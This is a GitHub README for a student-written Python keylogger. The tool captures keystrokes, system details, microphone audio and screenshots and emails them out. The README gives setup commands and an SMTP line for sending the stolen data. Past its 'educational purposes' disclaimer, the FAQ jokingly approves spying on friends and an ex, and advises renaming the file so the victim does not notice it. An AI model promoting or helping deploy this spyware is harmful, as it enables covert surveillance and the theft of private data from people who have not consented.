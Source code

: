 # Keylogger
***
A keylogger written in python. It saves pressed keys, system informations, audio from the microphone and takes screenshots. The files are then sent to an email address which must be defined in ![](login.py). The keys are also printed to the console. The program was only tested on Ubuntu 22.04 beacause it worked so we didn't see the point in working more. We are tired students.

## Table of contents
- [Keylogger](#keylogger)
  - [Table of contents](#table-of-contents)
  - [Disclaimer](#disclaimer)
  - [Installation](#installation)
  - [FAQs](#faqs)
  - [Thanks to](#thanks-to)

## Disclaimer
This program is for educational purposes only. We are not responsible for any misuse or damage caused by this program. If you want to use it, you must have the permission of the owner of the computer. If you don't and you get caught, we are not responsible for that either.

## Installation
Clone the project: ```git clone https://github.com/Grillacier/keylogger```
Enter your email address and password in ![](login.py)
Run the program: ```python3 keylogger.py```
Various files will appear in your directory : keylog.txt, audio.wav and screenshot.png. They will also be sent to your email address.

## FAQs
**Q: I don't have a microphone, will it still work?**
A: Yes, it will still work. You will just not hear anything in the audio files.

**Q: Does the program use my webcam?**
A: No, but we would like to add this feature in the future because this sounds really illegal.

**Q: Am I safe?**
A: Maybe.

**Q: Do I have to use outlook?**
A: No, you just have to modify line 100 in ![](keylogger.py) to use another email server. For instance, if you want to use gmail, you have to change it to ```server = smtplib.SMTP('smtp.gmail.com', 587)```.

**Q: I ran the program a few times but now it doesn't work anymore. Why?**
A: This means that you have been blocked by the email server. You can try to change your email address or wait a few hours. Damn, you really love spying on people.

**Q: Can I use this to spy on my ex?**
A: We don't know, we didn't try. But if you do, please tell us how it went. Also, if you REALLY want to spy on them, you should change the program a little. For instance, do not send them a file called "keylogger.py".

**Q: Can I use this to spy on my friends?**
A: Yes.

## Thanks to
We would like to thank our professor for giving us this project. His course was the best and making this project was a lot of fun. We would also like to thank our parents for giving us life. And finally, we would like to thank our friends for being there for us. We love you all.